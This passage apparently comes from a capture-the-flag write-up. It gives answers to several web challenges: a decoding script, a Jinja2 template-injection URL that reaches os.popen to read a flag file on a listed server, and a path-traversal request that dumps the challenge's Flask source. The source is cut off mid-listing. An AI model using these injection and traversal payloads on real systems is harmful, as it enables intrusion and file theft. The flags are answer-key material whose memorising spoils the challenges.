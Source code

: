 flag: `ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}`

### web2

```python
import base64
import codecs

s = "a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

s = codecs.decode(s, 'rot_13')
s = s[::-1]
s = base64.b64decode(s).decode('utf-8')
s = "".join([chr(ord(i) - 1) for i in s])
s = s[::-1]

print(s)
```

flag: `flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}`

### Web_python_template_inejction

```
http://61.147.171.105:54330/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}
```

flag: `ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}`

### catcat-new

```
http://61.147.171.105:65197/info?file=../app.py
```

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
    __name__,
    static_url_path='/', 
    static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
    flag = cat("/flag")
    os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
    detailtxt = os.listdir('./details/')
    cats_list = []
    for i in detailtxt:
        cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)

@app.route('/info', methods=["GET", 'POST'])
def info():
    filename = "./details/" + request.args.get('file', "")
    start = request.args.get('start', "0")
    end = request.args.get('end', "0")
```